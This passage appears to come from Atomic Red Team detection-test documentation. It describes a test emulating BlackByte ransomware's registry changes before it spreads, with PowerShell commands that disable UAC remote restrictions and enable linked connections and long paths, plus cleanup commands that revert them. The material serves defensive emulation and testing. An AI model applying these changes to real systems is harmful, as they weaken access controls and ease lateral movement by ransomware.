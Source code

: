 #### Cleanup Commands:
```cmd
reg delete HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\ /v LocalAccountTokenFilterPolicy /f >nul 2>&1
reg delete HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLinkedConnections /f >nul 2>&1
reg delete HKLM\SYSTEM\CurrentControlSet\Control\FileSystem\ /v LongPathsEnabled /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #9 - BlackByte Ransomware Registry Changes - Powershell
This task recreates the steps taken by BlackByte ransomware before it worms to other machines via Powershell.  See "Preparing to Worm" section: https://redcanary.com/blog/blackbyte-ransomware/
The steps are as follows:
<ol>
    <li>1. Elevate Local Privilege by disabling UAC Remote Restrictions</li>
    <li>2. Enable OS to share network connections between different privilege levels</li>
    <li>3. Enable long path values for file paths, names, and namespaces to ensure encryption of all file names and paths</li>
</ol>
The registry keys and their respective values will be created upon successful execution.

**Supported Platforms:** Windows


**auto_generated_guid:** 0b79c06f-c788-44a2-8630-d69051f1123d






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name LocalAccountTokenFilterPolicy -PropertyType DWord -Value 1 -Force
New-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name EnableLinkedConnections -PropertyType DWord -Value 1 -Force
New-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\FileSystem" -Name LongPathsEnabled -PropertyType DWord -Value 1 -Force
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name LocalAccountTokenFilterPolicy -Force -ErrorAction Ignore
Remove-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name EnableLinkedConnections -Force -ErrorAction Ignore
Remove-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\FileSystem" -Name LongPathsEnabled -Force -ErrorAction Ignore
```

